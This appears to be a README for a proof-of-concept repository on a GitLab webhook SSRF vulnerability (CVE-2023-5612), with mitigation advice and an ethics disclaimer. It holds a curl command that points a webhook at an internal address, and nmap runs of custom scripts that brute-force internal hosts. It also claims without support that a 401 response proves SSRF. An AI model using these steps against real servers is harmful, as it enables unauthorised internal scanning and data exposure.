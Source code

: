 # CVE-2023-5612 – GitLab SSRF via Webhook URL (PoC & Analysis)

## 📌 CVE Overview
- **CVE-ID:** CVE-2023-5612  
- **Severity:** High (CVSS: 8.1 Base Score)
- **Type:** Server-Side Request Forgery (SSRF)
- **Component:** GitLab CE/EE Webhooks
- **Affected Versions:** GitLab CE/EE < 16.2.7, 16.3 < 16.3.4, 16.4 < 16.4.1

## 🧠 Description
An SSRF vulnerability in GitLab CE/EE allows attackers with valid Project Maintainer access to send crafted requests to arbitrary internal services via malicious webhook URLs. Exploitation leads to internal network scanning, metadata leakage, or further pivoting.

---

## ✅ Exploit Conditions
- У злоумышленника есть **maintainer**-доступ к проекту
- GitLab не имеет жесткой фильтрации или валидации URL-хуков

---

## ⚙️ PoC Steps (Manual)

```bash
curl -s --header "PRIVATE-TOKEN: <TOKEN>" \
     --data-urlencode "url=http://127.0.0.1:8888" \
     http://<gitlab-host>:8080/api/v4/projects/<project_id>/hooks
```

Успешный запрос вернет `201 Created` либо ошибку вида `401 Unauthorized`, что указывает на SSRF-доступ.

---

## 🛠 NSE Script (Manual Trigger)

```bash
nmap -p 8080 \
  --script ./gitlab-ssrf.nse \
  --script-args gitlab.token="<TOKEN>" \
  <target-ip>
```

## 🧪 NSE Script (Bruteforce Internal URLs)

```bash
nmap -p 8080 \
  --script ./gitlab-ssrf-brute.nse \
  --script-args gitlab.token="<TOKEN>" \
  <target-ip>
```

---

## 📂 Repo Structure
```
.
├── gitlab-ssrf.nse             # NSE script for manual SSRF verification
├── gitlab-ssrf-brute.nse       # NSE brute script to scan internal hosts/ports
├── screenshots/                # Скрины выполнения PoC и подтверждения уязвимости
└── README.md                   # Этот файл
```

---

## 🖼 Screenshots
- ✅ Успешный SSRF с возвратом 401 Unauthorized
- 📜 Логи nmap c отработкой скрипта
- 📦 Добавление вебхука через API

---

## ⚠️ Mitigation
- Upgrade GitLab to >= 16.2.7 / 16.3.4 / 16.4.1
- Ограничить outbound HTTP через egress firewall
- Использовать internal allow-lists для вебхуков

---

## 🧠 Author & Contact
**Pavel Topskiy**  
[GitHub](https://github.com/TopskiyPavelQwertyGang) • Security Analyst, Red Team path  

---

## 📅 Timeline
- **June 2025:** Анализ PoC и уязвимости
- **5 июня 2025:** Написание кастомного NSE-скрипта и тестов

---

## 🔐 Disclaimer
All testing was done in isolated lab environments on intentionally vulnerable versions. Do not use this against unauthorized systems. Respect ethical hacking principles.
